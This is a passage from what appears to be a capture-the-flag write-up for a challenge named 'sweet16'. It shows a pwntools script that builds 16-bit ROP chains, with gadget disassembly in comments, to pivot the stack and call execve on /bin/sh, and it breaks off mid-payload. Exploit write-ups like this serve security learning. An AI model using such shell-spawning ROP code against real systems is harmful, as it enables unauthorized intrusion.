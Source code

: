 This is the python script I used to run the exploit:
```python
#!/usr/bin/env python3
from pwn import *

context.arch = "i386"
context.bits = 16

def conn():
    if args.LOCAL:
        r = process(["./elks/elksemu/elksemu", "sweet16"])
    else:
        r = remote("sweet16.challs.srdnlen.it", 1616)

    return r

def main():
    global r
    r = conn()

    """
       1000:02a9 97              XCHG       AX,DI
       1000:02aa 89 ec           MOV        SP,BP
       1000:02ac 5d              POP        BP
       1000:02ad 5f              POP        DI
       1000:02ae 5e              POP        SI
       1000:02af c3              RET
    """

    """
       1000:009f 89 e3           MOV        BX,SP
       1000:00a1 8b 57 06        MOV        DX,word ptr [BX + param_3]
       1000:00a4 8b 4f 04        MOV        CX,word ptr [BX + param_2]
       1000:00a7 8b 5f 02        MOV        BX,word ptr [BX + param_1]
       1000:00aa e9 00 00        JMP        _syscall0 -> (INT 0x80, ...)
    """

    #2c3c = stack from read

    rop = b""
    rop += p16(0x4b6) # pop di, si; ret
    rop += p16(0xb) # sys_execve
    rop += p16(0x0) # pad
    rop += p16(0x2a9) # xchg ax, di; mov sp, bp; pop bp, di, si; ret;

    rop2 = b""
    rop2 += p16(0) # bp
    rop2 += p16(0) # di
    rop2 += p16(0) # si
    rop2 += p16(0x9f) # mov bx, sp; mov dx, [bx + 6]; mov cx, [bx + 4];
                      # mov bx, [bx + 2]; int 0x80;
    rop2 += p16(0) # pad
    rop2 += p16(0x2c3c) # bx to /bin/sh\x00
    rop2 += p16(0) # cx
    rop2 += p16(0) # dx

    assert len(rop) <= 16 - 2
    assert len(rop2) <= 40 - 8
    
    payload = flat({
        0: b"/bin/sh\x00",
        8: rop2,
        40: 0x2c3c + 8, # setup bp for pivot
        42: rop
```